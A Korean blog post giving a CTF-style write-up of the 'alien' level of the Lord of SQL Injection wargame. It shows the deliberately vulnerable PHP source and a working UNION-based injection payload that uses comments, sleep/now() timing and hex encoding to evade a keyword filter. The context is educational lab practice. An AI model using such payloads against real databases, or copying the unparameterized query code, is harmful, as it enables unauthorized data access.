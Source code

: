 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - alien 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


와 드디어 `Lord of SQL Injection`을 `All Clear` 했다.  

신난다!!  

마지막 문제의 이름은 `alien`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_alien where no=
-------------------------------------------------------------

-------------------------------------------------------------
query2 : select id from prob_alien where no=''
-------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

예전에 뭔가 `POXX`에서 비슷한 문제가 있었던 것 같은데 잘 기억이 안난다.  

`Write-up`도 어딘가에 있을 것 같은데 못찾겠다.  

문제를 풀기 위해서는 총 4개의 `조건문`을 통과해야 한다.  

1. result !== "admin" : 결과 값이 admin이 아니면 exit => admin 이어야 함 
2. result === "admin" : 결과 값이 admin이면 exit => admin이 아니어야 함  
3. result === "admin" : 결과 값이 admin이면 exit => admin이 아니어야 함  
4. result === "admin" : 결과 값이 admin이면 solve => admin 이어야 함  

1번과 2번은 `no`에 `싱글쿼터`가 없지만, 3번과 4번 조건문에서는 `싱글쿼터`가 존재한다.  

싱글쿼터가 없을 때와 있을 때를 우회 해 원하는 값을 뽑는 것은 생각보다 쉽다.  

```
?no=1 union select 1#' union select '1
```

위와 같이 입력하면 완성되는 `$query`와 `$query2`는 다음과 같다.  

```
$query1 : select id from prob_alien where no=1 union select 1#' union select '1
```

```
$query2 : select id from prob_alien where no='1 union select 1#' union select '1'
```

첫 번째 쿼리의 경우, `#`이 주석 처리 되기 때문에 `#` 이후의 `' union select '1`은 체크하지 않는다.  

반면 두 번째 쿼리에서는 `1 union select 1#` 까지가 `no`의 값으로 들어가기 때문에 `#` 이후의 `union select '1'`이 실행된다.  

여기까진 쉽게 알아냈는데, 문제는 한 쿼리문으로 어쩔 때는 `admin`이어야 하고 어쩔 때는 `admin`이면 안되는 쿼리문을 만들어야 하는 것이었다.  

이것도 주변에 물어봐서 풀 수 있었는데, 바로 `시간`을 활용하면 됬다.  

```
?no=1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#
```

먼저 첫 번째 쿼리를 살펴보면 다음과 같다.  

`!sleep(1)&&now()%2=1` 은 현재 시간에 따라서 `0` 혹은 `1`을 반환 해 준다.  

이 후, `hex(10 + 0 OR 1)`이 되는데, 이 때 `hex(10)`은 `A`가, `hex(11)`은 `B`가 된다.  

이를 `lower()`를 통해 소문자로 바꾼 후, `concat()`을 통해서 `0x646d696e`와 합친다.  

`0x646d696e`는 `dmin`이므로, 최종적인 결과 값은 시간에 따라서 `admin` 혹은 `bdmin`이 될 것이다.  

`sleep(1)`을 걸어서 첫 번째가 `0`이라면 바로 다음 두번째로 쿼리를 실행할 때는 `1`이 나오도록 했다.  

두 번째 쿼리에서는 `hex(10+`가 아니라 `hex(9+`를 했다.  

나와야 하는 결과 값을 살펴보면 순서대로 `hex(10) -> hex(11) -> hex(11) -> hex(10)`이다.  

하지만 계속해서 `sleep(1)`을 실행하게 되면 무조건 `hex(10) -> hex(11) -> hex(10) -> hex(11)` 혹은 `hex(11) -> hex(10) -> hex(11) -> hex(10)`이 나오게 된다.  

여기서 `hex(10)`만 제대로 나오면 되고 `hex(11)`은 다른 값이 나와도 상관 없으므로, 두 번째 쿼리에서 `hex(9+`로 바꿔 주어 `hex(10) -> hex(11) -> hex(9) -> hex(10)`이 나오게 했다.  

그러면 나오는 결과는 순서대로 `admin -> bdmin -> 9dmin -> admin`이 되어 문제를 풀 수 있다.  

다만, 처음 쿼리를 실행할 때 `admin`이 나올 수 있는 시간이어야 하므로 바로 한 번에 문제가 풀리지는 않는다.  

```php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select id from prob_alien where no=1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query2 : select id from prob_alien where no='1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#'
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

ALIEN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

`ALIEN Clear!!`

드디어 `Lord of SQL Injection`을 `ALL Clear` 했다!  

아 너무 뿌듯하다 ㅠㅠ  

모르는게 너무 많아서 주변에 많이 물어보면서 풀었는데, 이 부분이 좀 아쉽다.  

더 열심히 공부해서 아무한테도 안물어보고 문제를 슝슝 풀 수 있게 되었으면 좋겠다!  

이제 풀다 말았던 `pwnable.kr`을 다시 풀어야 겠다. ㅎㅎ  

`Load of SQL Injection All Clear!!`  

![](/images/los/alien/alien_01.png)
